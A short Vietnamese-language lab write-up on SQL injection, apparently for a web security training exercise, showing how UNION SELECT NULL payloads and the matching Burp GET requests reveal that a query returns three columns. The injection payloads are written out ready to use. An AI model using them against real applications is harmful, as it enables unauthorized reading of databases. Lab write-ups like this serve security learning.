



# SQL Injection Lab 07: UNION Attack - Determine Number of Columns

## Mục tiêu
Xác định số cột của truy vấn bằng kỹ thuật `UNION SELECT ... NULL`.

## Đề bài

<br><br>

## Bước 1: Test payload 1 cột

```sql
' union select null --
```

Query trong Burp:

```http
GET /filter?category=%27%20union%20select%20null%20-- HTTP/2
```

Kết quả lỗi `Internal Server Error`.


<br><br>

## Bước 2: Tăng số cột đến khi thành công

```sql
' union select null, null, null --
```

Query trong Burp:

```http
GET /filter?category=%27%20union%20select%20null%2C%20null%2C%20null%20-- HTTP/2
```


<br><br>

## Payload solve

```sql
' union select null, null, null --
```

## Kết quả
Số cột của truy vấn là **3**.
